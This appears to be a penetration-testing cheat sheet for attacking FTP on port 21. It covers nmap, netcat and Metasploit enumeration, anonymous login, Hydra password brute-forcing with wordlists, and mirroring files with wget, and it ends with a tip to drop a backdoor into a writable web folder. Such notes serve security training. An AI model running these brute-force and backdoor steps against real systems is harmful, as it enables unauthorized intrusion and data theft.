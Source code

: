 # Port 21 - IIS FTP

{% code title="Connection" %}
```bash
ftp <IP> <PORT>
```
{% endcode %}

## IIS FTP Enumeration

```
# CHECK THE VERSION
searchsploit vsftpd VERSION
```

```bash
# Enumeration with NetCat
nc -nv IP 21

# NMAP scripts
ls -la /usr/share/nmap/scripts/ | grep ftp-
nmap -sV -p 21 --script SCRIPT IP
```

{% code title="Metasploit Enumerarion" %}
```bash
service postgresql start && msfconsole

search type:auxiliary name:ftp

use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/ftp_version
```
{% endcode %}

## IIS FTP Exploitation

```bash
# Anonymous
ftp IP PORT
anonymous
anonymous

# Hydra brute-force
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ftp -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ftp -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt IP ftp -I
## -L: specify FILE for user brute forcing
## -l: specify USER
## -P: specify FILE for password brute forcing
## -p: specify PASSWORD
## -I: ignore an existing restore file

# Download ftp file
## Download from terminal
wget -m ftp://USER:PASS@IP
wget -m --user=USER --password=PASS ftp://IP

## Download a single file from ftp connection
get FILE
```

> if ftp connection is a site folder, get a backdoor
